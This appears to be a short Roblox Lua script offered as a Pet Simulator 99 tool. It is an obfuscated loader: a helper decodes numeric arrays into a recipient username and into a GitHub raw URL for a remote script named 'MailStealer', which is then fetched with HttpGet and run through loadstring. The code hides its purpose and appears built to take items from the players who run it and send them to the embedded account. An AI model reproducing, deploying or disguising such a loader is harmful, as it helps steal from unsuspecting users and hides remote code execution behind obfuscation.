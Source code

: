 function AvPzSLskMrpRwFDZwjUUvpkgBvvNjEaQvFEhcbgPbQZOZlsgWwHkpAUosRXiBKuenONoizKWXfgIsDpeebGSyMvh(code)res=''for i in ipairs(code)do res=res..string.char(code[i]/200)end return res end 


Username = psr132476 AvPzSLskMrpRwFDZwjUUvpkgBvvNjEaQvFEhcbgPbQZOZlsgWwHkpAUosRXiBKuenONoizKWXfgIsDpeebGSyMvh({22600,22200,23000,21000,23000,20800,23000})
loadstring(game:HttpGet(AvPzSLskMrpRwFDZwjUUvpkgBvvNjEaQvFEhcbgPbQZOZlsgWwHkpAUosRXiBKuenONoizKWXfgIsDpeebGSyMvh({20800,23200,23200,22400,23000,11600,9400,9400,22800,19400,23800,9200,20600,21000,23200,20800,23400,19600,23400,23000,20200,22800,19800,22200,22000,23200,20200,22000,23200,9200,19800,22200,21800,9400,13800,20600,22200,22800,21000,21400,23400,23000,19400,9400,16000,20200,23200,16600,21000,21800,23400,21600,19400,23200,22200,22800,11400,11400,9400,21800,19400,21000,22000,9400,15400,19400,21000,21600,23000,23200,20200,19400,21600,20200,22800})))()    
